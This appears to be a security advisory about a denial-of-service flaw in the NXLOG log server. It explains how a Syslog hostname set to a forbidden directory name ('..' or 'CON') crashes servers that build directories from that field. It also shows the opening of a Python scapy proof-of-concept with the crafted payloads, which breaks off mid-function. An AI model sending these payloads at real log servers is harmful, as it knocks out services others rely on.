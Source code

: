 **Confidentiality       :**     

**Availability          :**     

---

**CVSS SCORE (3.X)      :**    7.5

**SEVERITY              :**    HIGH


---

# 2 Exploitation :
This vulnerability can make a DoS of NXLOG server.

But the server needs to be a specific configuration, the nxlog config file must define to create a directory with a field of a part of the Syslog payload.

Syslog field: [https://nxlog.co/documentation/nxlog-user-guide/xm_syslog.html#xm_syslog_fields](https://nxlog.co/documentation/nxlog-user-guide/xm_syslog.html#xm_syslog_fields)

The software tries to create a directory but the name of this directory can't be created on the file system.

Because of the name of this directory is forbidden.

Here is an example of a directory name impossible to create :

* For Windows 	: 	CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8 et LPT9;
* For Linux 	:	.., .

So if the configuration file is defined to create a name directory with Syslog payload, an attacker can switch off the Nxlog service.

---

# 3 PoC :
To exploit this vulnerability I have created a Python script :
````python
#!/usr/bin/python3
# coding: utf8
# Nooooooooooo I'm not a script kiddie I hack syslog :D
# g0 h4ck SYSLOG
# Made by 123soleil with <3

import sys
import time
import argparse
from scapy.all import *

def getPayload(args):
        # IF UNIX
        if (args.OS == 1):
                return "Sep 14 14:09:09 .. dhcp service[warning] 110 Silence is golden"
        # IF WINDOWS
        elif (args.OS == 2):
                return "Sep 14 14:09:09 CON dhcp service[warning] 110 Silence is golden"

        # Test
        elif (args.OS == 3):
                return "Sep 14 14:09:09 123soleil dhcp service[warning] 110 Silence is golden"

def runExploit(args,payload):
        priority = 30
        message = payload
````